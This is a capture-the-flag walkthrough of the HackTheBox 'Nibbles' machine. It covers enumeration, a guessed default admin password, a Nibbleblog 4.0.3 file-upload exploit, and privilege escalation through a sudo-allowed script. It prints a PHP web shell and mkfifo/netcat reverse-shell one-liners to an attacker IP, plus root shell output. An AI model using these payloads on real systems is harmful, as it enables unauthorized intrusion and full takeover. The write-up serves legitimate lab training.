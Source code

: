 # Nibbles

![image info](2.png)

## Author
**mrb3n**

## Task

> Find user.txt and root.txt file in the victim’s machine.

## Solution

First thing first, nmap:

`nmap -sV -sC -oA nibblesnmap 10.10.10.75`

Nothing interesting here, just ports `22, 80` opened. Googling the IP and glancing at the source code though we'll find a hint:


 `<!-- /nibbleblog/ directory. Nothing interesting here! -->`


 So I went to `<IP>/nibbleblog/` and a dashboard popped up but none of the links would redirect me to something useful. There was an interesting "Powered by" tool.
 
 ![image info](3.png)

  Searching for "Nibbleblog exploit poc" we discover a vulnerable version to **file uploads**, the `4.0.3`. ([link](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html)). This is the PoC:

1. Obtain Admin credentials (for example via Phishing via XSS which can be gained via CSRF, see advisory about CSRF in NibbleBlog 4.0.3)
2. Activate My image plugin by visiting http://localhost/nibbleblog/admin.php?controller=plugins&action=install&plugin=my_image
3. Upload PHP shell, ignore warnings
4. Visit http://localhost/nibbleblog/content/private/plugins/my_image/image.php. This is the default name of images uploaded via the plugin.
 
I first had to make sure I was dealing with the right vulnerable version, so I started to enumerate the directories:


 ```bash
$ gobuster dir -u http://10.10.10.75/nibbleblog/ --wordlist /usr/share/dirb/wordlists/common.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.75/nibbleblog/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/08/03 20:40:58 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 301]
/.htaccess            (Status: 403) [Size: 306]
/.htpasswd            (Status: 403) [Size: 306]
/admin                (Status: 301) [Size: 321] [--> http://10.10.10.75/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]
/content              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/content/]
/index.php            (Status: 200) [Size: 2987]
/languages            (Status: 301) [Size: 325] [--> http://10.10.10.75/nibbleblog/languages/]
/plugins              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/plugins/]
/README               (Status: 200) [Size: 4628]
/themes               (Status: 301) [Size: 322] [--> http://10.10.10.75/nibbleblog/themes/]
Progress: 4587 / 4615 (99.39%)
===============================================================
2023/08/03 20:41:21 Finished
===============================================================
```

Browsing to the `/README` dir we can see we're working with the right version:

`====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01`

As the PoC says we need to authenticate as a valid user to be able to access the upload page. We need to find some credentials

The login page `/admin.php` confirms the existence of an admin account:

![image info](4.png)

 Knowing HackTheBox it is always useful to try simple combinations of credentials such as `admin:admin` , `admin:password` and the lucky guess `admin:nibbles` which allowed me to enter the **admin** portal of the website.

![image info](5.png)

Now we just have to create a `.php` file that allows me to do a reverse shell once the upload is done:
 
 ```bash 
└─$ cat  shell.php          
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.5 9443 >/tmp/f"); ?>
 ```

Upload:

 ![image info](6.png)

 
 And activate my listener with nc :

 ```bash
 └─$ nc -lvnp 9443 
listening on [any] 9443 ...
 ```

 Now we just have to call up the page where they store the uploads (as specified in the PoC):

 `curl  http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php`

And we istantly obtain a shell. We are now inside the `nibbler` user: 


 ```bash
 └─$ nc -lvnp 9443 
listening on [any] 9443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.75] 41984
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
$ 
```

TTY :

 `python -c 'import pty; pty.spawn("/bin/bash")'`

Moving to `/home/nibbler` will find the `user` flag:

```bash
$ ls
personal.zip
user.txt
$ cat user.txt
```
For priv esc we will exploit the vulnerable binary `monitor.sh` which we can detect with the command:

```bash
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
Unzipping `personal.zip` we'll be able to access `monitor.sh`

```bash
nibbler@Nibbles:/home/nibbler$ unzip personal.zip
unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh
```

How to exploit it? we can append a rev shell to the end of the file which then, running it as root, will grant us a root shell!

`echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.5 8443 >/tmp/f' | tee -a monitor.sh`

Start listening on the port just indicated :

`nc -lvnp 8443`

And let's just run the modified script:

`sudo /home/nibbler/personal/stuff/monitor.sh`

and here is the root shell :

```bash
nc -lvnp 8443
listening on [any] 8443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.75] 50532
# id
uid=0(root) gid=0(root) groups=0(root)
# which python3
/usr/bin/python3
# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@Nibbles:/# cd root
cd root
root@Nibbles:~# ls
ls
root.txt
```